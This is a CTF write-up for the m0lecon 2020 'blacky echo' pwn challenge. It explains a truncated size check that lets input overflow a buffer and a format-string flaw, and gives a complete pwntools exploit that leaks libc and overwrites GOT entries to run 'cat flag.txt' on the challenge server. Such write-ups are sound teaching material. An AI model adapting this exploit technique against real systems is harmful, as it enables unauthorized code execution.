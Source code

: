 ```yaml
---
ctf_name: "m0lecon 2020 Teaser"
title:	"blacky echo"
date:	2020-05-24
category: "pwn"
author: "OrsoBruno96"
---
```


### Program description
Mainly two bugs:
- Bad checking over size input in function go leads to buffer overflow

```c
  int __n = get_int();
  if ( ((ushort)__n == 0) || ((ushort)__n > 0x3f) ) {
    memcpy(auStack56,"Length err",10);
    print_error(auStack56);
  }
  // it only checks the lower two bytes of __n but uses 4 bytes in the end
  fgets(acStack65592,__n,stdin);
```

- Using memcpy to write "Format err" on the buffer does not
add a terminating "\x00", so we can use the original string
to put some %s and %n to read and write.

```c
// in function go()
  if ( strncmp(acStack65592,"ECHO->", 6) ) {
    memcpy(auStack56,"Format err",10);
    print_error(auStack56);
  }
// in function print_error(param_1)
  snprintf(local_98,0x32,"[!] Error: %s",param_1); // copies also the overflowed user controllable content
  fprintf(stderr,local_98);
```

### Exploit

- In the first input we leak the `exe.sym.got['system']` address
and then we override the `exit@got entry` with the address of `main`
to have further input at our disposal.

- Then we overwrite `puts@got entry` with the system address we wrote
earlier.

- In the end we properly use the echo program to echo "cat flag.txt".

```python
from pwn import ELF, context, args, gdb, remote, process, log, \
    p64, u64, cyclic, ui 

exe = context.binary = ELF("blacky_echo")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
remotehost = ("challs.m0lecon.it", 9011)
gdbscript = """
# break *go + 0x135
# break *go + 0x109
# break *go + 0x11e
break *print_error + 0x7d
# gef config context.nb_lines_stack 8250
gef config context.nb_lines_stack 40
continue
"""

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug(exe=exe.path, args=[exe.path] + argv,
                         gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(*remotehost, *a, **kw)
    elif args.GDBSCRIPT:
        print(gdbscript)
        exit(0)
    else:
        return process([exe.path] + argv, *a, **kw)

def leak_system_address():
    io.recvuntil("Size:")
    size = 2**17 + 10
    io.sendline(f"{size}")
    io.recvuntil("Input:")
    log.info(f"{exe.sym.got['system']:#08x}")
    # 21
    io.sendline(
        p64(exe.sym.got['system']) +
        p64(exe.sym.got['exit']) +
        cyclic(0x10000 + 10 - 16) +
        b"a"*6 + b"%31$s" + f"%{0xb54 - 33}c".encode() + b"%32$hn")
    io.recvuntil(b"Format erraaaaaa")
    ans = io.recvline().strip()
    cusu = ans.ljust(8, b"\x00")[:8]
    libc_addr = u64(cusu) & 0x0000ffffffffffff
    log.info(f"address: {libc_addr:#08x}")
    libc.address = libc_addr - libc.sym.system
    log.info(f"libc: {libc.address:#08x}")
    log.debug(f"Go check GOT: {exe.sym.got['exit']}")
    return libc_addr

def chunks(lst, n):
    """Yield successive n-sized chunks from lst."""
    for i in range(0, len(lst), n):
        yield lst[i:i + n]

def write_byte(addr, val):
    io.recvuntil("Size:")
    size = 2**17 + 10
    io.sendline(f"{size}")
    io.recvuntil("Input:")
    ui.pause()
    io.sendline(
        p64(addr) +
        cyclic(0x10000 + 10 - 16 + 8) +
        f"%{(0xff - 0x15 + 1)&0xff}c".encode() +
        f"%{(val)}c".encode() +
        b"%31$hhn"
    )
    log.info(io.recvline())

def altro_edit_puts_addr(system_addr):
    for i, chunk in enumerate(chunks(f"{system_addr:012x}", 4)):
        write_byte(exe.sym.got['puts'], int(chunk, 16))
    io.recvuntil("Size:")
    size = 2**17 + 10
    io.sendline(f"{size}")
    io.recvuntil("Input:")
    io.sendline("ECHO->cat flag.txt")

if __name__ == "__main__":
    io = start()
    system_addr = leak_system_address()
    altro_edit_puts_addr(system_addr)
    io.interactive()
```
